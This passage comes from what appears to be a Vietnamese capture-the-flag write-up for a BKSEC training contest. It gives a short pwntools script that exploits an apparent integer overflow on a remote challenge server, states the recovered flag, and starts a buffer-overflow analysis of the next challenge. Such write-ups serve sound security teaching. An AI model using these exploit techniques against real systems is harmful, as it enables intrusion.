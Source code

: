 ![alt text](/images/bktrain2024/image-7.png)

**Lời giải**
```python
#!/usr/bin/env python3 
from pwn import *

p = remote("45.77.247.61", 6051)

p.sendlineafter(b'number: ', b'2147483647')
p.sendlineafter(b'number: ', b'10')

p.interactive()
```

**Đáp án: BKSEC{Ma7h_1s_7hE_woR57_thIn6_EveR}**

### Bài Rộp Rộp Rộp

Load file đã cho vào IDA, ta thấy được lỗ hổng ở hàm `fgets()` với việc cho phép nhập 0x100 bytes cho mảng `buf` có kích thước 8 bytes. (Ở đây tôi không chắc `buf` có kích thước 8 bytes vì IDA phân tích ra như vậy. Nhưng tôi chắc chắn có lỗi BOF do `buf` được bắt đầu từ [rbp-0x40])
